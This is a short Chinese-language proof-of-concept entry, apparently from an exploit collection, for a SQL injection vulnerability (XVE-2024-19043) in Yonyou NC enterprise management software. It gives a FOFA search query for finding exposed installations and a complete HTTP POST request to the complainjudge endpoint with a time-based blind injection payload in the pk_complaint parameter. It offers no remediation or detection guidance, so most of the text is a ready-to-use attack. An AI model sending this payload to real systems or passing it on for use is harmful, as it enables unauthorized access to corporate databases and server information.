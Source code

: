 # 用友NC系统complainjudge接口SQL注入漏洞(XVE-2024-19043)

用友NC是由用友公司开发的一套面向大型企业和集团型企业的管理软件产品系列。 用友NC系统/ebvp/advorappcoll/complainbilldetail和complainjudge接口的pk_complaint参数存在SQL注入，攻击者能够通过该漏洞获取泄露服务器信息。

## fofa

```yaml
app="用友-UFIDA-NC
```

## poc

```java
POST /ebvp/advorappcoll/complainjudge HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded

pageId=login&pk_complaint=11%27;WAITFOR%20DELAY%20%270:0:5%27--
```

